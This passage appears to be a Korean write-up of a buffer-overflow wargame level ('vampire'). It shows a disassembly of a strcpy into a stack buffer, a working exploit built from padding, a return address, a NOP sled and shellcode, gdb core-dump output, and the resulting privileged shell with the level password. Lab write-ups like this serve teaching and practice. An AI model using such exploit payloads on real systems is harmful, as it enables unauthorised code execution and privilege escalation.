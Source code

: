 ```
0x80484aa <main+122>:	add    %eax,4
0x80484ad <main+125>:	mov    %edx,DWORD PTR [%eax]
0x80484af <main+127>:	push   %edx
0x80484b0 <main+128>:	lea    %eax,[%ebp-40]
0x80484b3 <main+131>:	push   %eax
0x80484b4 <main+132>:	call   0x8048370 <strcpy>
0x80484b9 <main+137>:	add    %esp,8
0x80484bc <main+140>:	lea    %eax,[%ebp-40]
0x80484bf <main+143>:	push   %eax
0x80484c0 <main+144>:	push   0x804855f
0x80484c5 <main+149>:	call   0x8048350 <printf>
0x80484ca <main+154>:	add    %esp,8
0x80484cd <main+157>:	leave
0x80484ce <main+158>:	ret
0x80484cf <main+159>:	nop
```

### 3. exploit code
payload는 이렇다.. 스택은 높은 주소에서 낮은 주소로 스택이 쌓이기 때문에 A를 44개 넣고 \xbf\xbf\xbf\xbf eip 주소를 넣게 되면 기본적인 payload가 만들어지게 되고 argv[1][49] 부분 부터 nop 슬라이드와 쉘 코드를 삽입하게 되는데 이때 nop을 \xbffeffff 만큼 넣어줘야 하므로... 65536 이상 넣어주게 된다.

```
./vampire `python - c 'print "A"*44+"\xbf\xbf\xbf\xbf"+"\x90"*65536+"\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```
위와 같은 payload를 먼저 실행 시키게 되면, segmentation 오류가 발생하고 coredump를 통해 esp 주소를 확인하게 되면

```
[troll@localhost tmp]$ gdb -q -c core
Core was generated by `�������������������������������������������������������������������������������'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
(gdb) x/x $esp
0xbffe75d0:	0x90909090
```

nop가 시작하는 주소는 0xbffe75d0 이므로 해당 주소를 payload 내 RET 부분에 넣어 최종 exploit payload를 짜게 되면

```
./vampire `python -c 'print "A"*44+"\xd0\x75\xfe\xbf"+"\x90"*100000+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

위와 같이 되고 실행 시키게 되면 끝!

```
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```
